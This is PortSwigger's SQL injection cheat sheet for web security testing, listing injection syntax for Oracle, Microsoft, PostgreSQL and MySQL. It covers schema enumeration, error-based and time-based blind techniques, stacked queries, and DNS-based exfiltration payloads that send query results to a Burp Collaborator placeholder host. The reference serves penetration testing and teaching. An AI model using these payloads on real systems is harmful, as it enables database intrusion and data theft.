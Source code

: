 # [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

This [SQL injection](https://portswigger.net/web-security/sql-injection) cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle     | `'foo'||'bar'`                                               |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `'foo'+'bar'`                                                |
| PostgreSQL | `'foo'||'bar'`                                               |
| MySQL      | `'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')` |

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| ---------- | --------------------------- |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle     | `--comment`                                                  |               |
| ---------- | ------------------------------------------------------------ | ------------- |
| Microsoft  | `--comment`                                                  | `/*comment*/` |
| PostgreSQL | `--comment`                                                  | `/*comment*/` |
| MySQL      | `#comment` `-- comment` [Note the space after the double dash] | `/*comment*/` |

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle     | `SELECT banner FROM v$versionSELECT version FROM v$instance` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle     | `SELECT * FROM all_tablesSELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret')> Conversion failed when converting the varchar value 'secret' to data type int.` |
| ---------- | ------------------------------------------------------------ |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)> invalid input syntax for integer: "secret"` |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))> XPATH syntax error: '\secret'` |

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle     | `Does not support batched queries.`                   |
| ---------- | ----------------------------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HEREQUERY-1-HERE QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`                          |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`                          |

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`               |

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Oracle     | ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`The following technique works on fully patched Oracle installations, but requires elevated privileges:`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`  |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL      | The following techniques work on Windows only:`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';execute c;END;$$ language plpgsql security definer;SELECT f();` |
| MySQL      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |